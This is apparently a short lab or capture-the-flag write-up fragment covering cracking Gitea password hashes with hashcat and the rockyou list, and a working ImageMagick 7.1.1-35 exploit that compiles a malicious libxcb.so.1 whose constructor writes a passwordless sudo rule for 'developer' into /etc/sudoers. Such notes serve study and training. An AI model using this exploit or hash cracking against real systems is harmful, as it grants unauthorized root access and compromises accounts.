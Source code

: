 ![image](https://github.com/user-attachments/assets/1f0735a9-6c0b-4965-ab37-73e6f246798b)

- Then, Crack with hashcat

```bash
hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```
- To check the passwords with `--show`

```bash
hashcat --show gitea.hashes --user
```

-------------------

### Image magick 7.1.1-35 exploit

------------------

- Confirm version with `magick --version`

![image](https://github.com/user-attachments/assets/a6d2aee8-cf7c-4ed8-a55e-728b2da9cfe2)

- In current working directory,create this shared library file with the code below

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
  system("echo 'developer ALL=(ALL:ALL) NOPASSWD: ALL' >> /etc/sudoers");
  exit(0);
}
EOF
```

-----------------------

### REFERENCE

------------------------

- [ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

-----------------------

### Source Code Review-> Wordpress

----------------------

### Wordpress Functions

----------------------

